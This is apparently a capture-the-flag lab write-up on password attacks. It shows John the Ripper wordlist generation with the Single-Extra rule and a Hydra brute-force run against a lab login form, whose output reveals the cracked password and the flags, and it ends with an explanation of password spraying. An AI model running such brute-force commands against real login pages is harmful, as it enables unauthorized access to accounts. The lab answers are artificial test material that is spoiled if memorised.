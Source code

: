 ![[Pasted image 20220910150631.png]]

![[Pasted image 20220910150551.png]]

*THM{33c5d4954da881814420f3ba39772644}*

Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.163.182/login-post/. What is the flag?
Note: use the clinic.lst dictionary in generating and expanding the wordlist!
use John's Single-Extra rule

```
┌──(kali㉿kali)-[~]
└─$ john --wordlist=clinic.lst --rules=Single-Extra --stdout > dict2.lst
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
537026p 0:00:00:00 100.00% (2022-09-10 16:07) 1627Kp/s multidisciplina
                                                                          
┌──(kali㉿kali)-[~]
└─$ hydra -l burgess -P dict2.lst 10.10.163.182 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-10 16:08:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 537026 login tries (l:1/p:537026), ~33565 tries per task
[DATA] attacking http-post-form://10.10.163.182:80/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php
[STATUS] 850.00 tries/min, 850 tries in 00:01h, 536176 to do in 10:31h, 16 active
[80][http-post-form] host: 10.10.163.182   login: burgess   password: OxytocinnicotyxO                                                              
[STATUS] attack finished for 10.10.163.182 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-10 16:10:26

```

![[Pasted image 20220910151136.png]]

![[Pasted image 20220910151159.png]]

*THM{f8e3750cc0ccbb863f2706a3b2933227}*

### Password spray attack 

This task will teach the fundamentals of a password spraying attack and the tools needed to perform various attack scenarios against common online services.

Password Spraying is an effective technique used to identify valid credentials. Nowadays, password spraying is considered one of the common password attacks for discovering weak passwords. This technique can be used against various online services and authentication systems, such as SSH, SMB, RDP, SMTP, Outlook Web Application, etc. A brute-force attack targets a specific username to try many weak and predictable passwords. While a password spraying attack targets many usernames using one common weak password, which could help avoid an account lockout policy. The following figure explains the concept of password spraying attacks where the attacker utilizes one common password against multiple users.
